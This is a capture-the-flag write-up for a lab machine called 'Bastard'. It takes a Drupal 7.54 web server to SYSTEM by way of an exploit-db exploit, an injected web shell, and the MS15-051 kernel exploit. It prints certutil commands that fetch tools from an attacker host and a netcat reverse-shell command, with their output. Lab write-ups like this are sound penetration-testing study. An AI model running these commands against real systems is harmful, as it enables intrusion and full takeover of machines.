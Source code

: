 # BASTARD

web server hosting a drupal 
- http://10.10.10.9/node/1
- http://10.10.10.9/rest
```
Services Endpoint "rest_endpoint" has been setup successfully.
```

cant create account 
```
Unable to send e-mail. Contact the site administrator if the problem persists.
```

from http://10.10.10.9/changelog.txt we can see it's a Drupal 7.54

googeling "Drupal 7.54 exploit"
```
https://www.exploit-db.com/exploits/41564
```

lets be fancy and inject pownyshell 
we are nt authority\iusr so lets grab the user.txt

systeminfo tells us Microsoft Windows Server 2008 R2 Datacenter

found this 
```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip
```
after downloading it to the machine 
```
certutil -urlcache -f http://10.10.14.28:8000/ms15-051x64.exe ms15-051x64.exe
```
we can see that this one is working
```
C:\inetpub\drupal-7.54>ms15-051x64.exe whoami
ms15-051x64.exe whoami
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1152 created.
==============================
nt authority\system
```

we need to download netcat 
```
certutil -urlcache -f http://10.10.14.28:8000/nc64.exe nc64.exe
```

Lets get a reverseshell
```
ms15-051x64.exe "nc64.exe -e cmd 10.10.14.28 4444"
```

and we are root 
```
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
